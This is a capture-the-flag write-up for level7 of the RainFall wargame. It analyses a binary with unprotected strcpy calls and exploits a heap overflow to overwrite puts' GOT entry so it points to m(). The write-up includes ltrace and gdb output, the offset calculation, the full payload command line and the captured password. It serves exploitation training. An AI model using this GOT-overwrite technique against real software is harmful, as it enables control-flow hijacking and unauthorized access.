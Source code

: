 # Level7

## Analysis

**In `main()`:**

```c
   // Unprotected 'strcpy'
   strcpy( (char *)str1[1], av[1] );
   strcpy( (char *)str2[1], av[2] );

   // Put the '.pass' into the global 'c'
   fgets( c, 0x44, fopen( "/home/user/level8/.pass", "r" ) ); // 68
   // Call to puts
   puts( "~~" );
```

**In `m()`:**

Just a `printf()` of global `c` 

`m()` adress:
```
(gdb) info function
All defined functions:
...
0x080484f4  m
0x08048521  main
```
___

## Exploit

We'll change the first instruction of `puts()` to call `m()`

To do it, we'll use the first `strcpy()` to change the `destination` argmument of the second, which will change the adress of the first instruction in `puts()` to `m()`

Lets first determine the offset needed int the first one to change `destination` on the second
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
__libc_start_main(0x8048521, 3, 0xbffff714, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                      = 0x0804a008
malloc(8)                                                                                      = 0x0804a018
malloc(8)                                                                                      = 0x0804a028
malloc(8)                                                                                      = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"...)                                      = 0x0804a018
strcpy(0x46464646, "ZZZZ" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

 ❯ python3 offset.py 46
20
```

Lets get the adress to modify in `puts()`
```
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

The Solution is:
 * 1st Arg
   * (20) Offset
   * (04) Adress of the first instruction of `puts()`
 * 2nd Arg
   * (04) Adress of `m()`

```
level7@RainFall:~$ ./level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

___

*Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*